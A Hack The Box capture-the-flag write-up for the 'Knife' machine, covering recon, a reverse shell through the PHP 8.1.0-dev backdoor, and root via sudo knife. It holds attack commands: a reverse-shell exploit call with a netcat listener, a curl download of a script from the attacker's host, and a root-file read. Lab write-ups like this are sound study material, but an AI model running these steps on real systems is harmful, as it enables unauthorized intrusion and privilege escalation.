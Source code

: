 # Knife

![Knife](../Images/htb_knife_1.png)

**Tools: nmap, whatweb, netcat.**

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 -p- 10.10.10.242`

![Knife](../Images/htb_knife_2.png)

We can see that port 80 is open, but upon checking the webpage there's nothing important, not even in the source. A fuzzer also won't find anything useful.  
With the whatweb tool, we're able to see that the webpage uses PHP 8.1.0-dev, a version that had a backdoor installed through the official GitHub repository, and this vulnerability allows an attacker to perform a Remote Code Execution (RCE).

![Knife](../Images/htb_knife_3.png)

The exploit at the exploit-db page was causing me some trouble during my attempts to spawn a fully interactive shell, start a reverse shell or escalate my privileges, so I found another exploit at [**this github repo**](https://github.com/flast101/php-8.1.0-dev-backdoor-rce).

![Knife](../Images/htb_knife_4.png)

Start a netcat listener in your machine:  
`nc -vnlp 9001`

Then in another terminal window we can run the exploit with the command:  
`python3 revshell_php_8.1.0-dev.py <targetURL> <hostIP> <port>`

![Knife](../Images/htb_knife_5.png)

With this, we get a reverse shell as the user 'james'. We can get the user flag from this account's home directory.  
`cat /home/james/user.txt`

![Knife](../Images/htb_knife_6.png)

Next up, with 'sudo -l' we see that the user can run the 'knife' binary with sudo privileges. If we try to run it, we get the tool's help, and after reading through the options, we see this one:

![Knife](../Images/htb_knife_7.png)

We can create a Ruby script to either escalate our privileges, or, in this case, read the root flag right away:  
`puts File.read("/root/root.txt")`

Save it to a ruby file (.rb)  

I started a python http server in my machine:  
`python3 -m http.server 80`

![Knife](../Images/htb_knife_8.png)

Now we simply need to download the file with curl and then run the command to execute the script in the box:  
```
curl <hostIP>/rb.rb > /home/james/rb.rb  
sudo knife /home/james/rb.rb
```

![Knife](../Images/htb_knife_9.png)

And the root flag is ours.
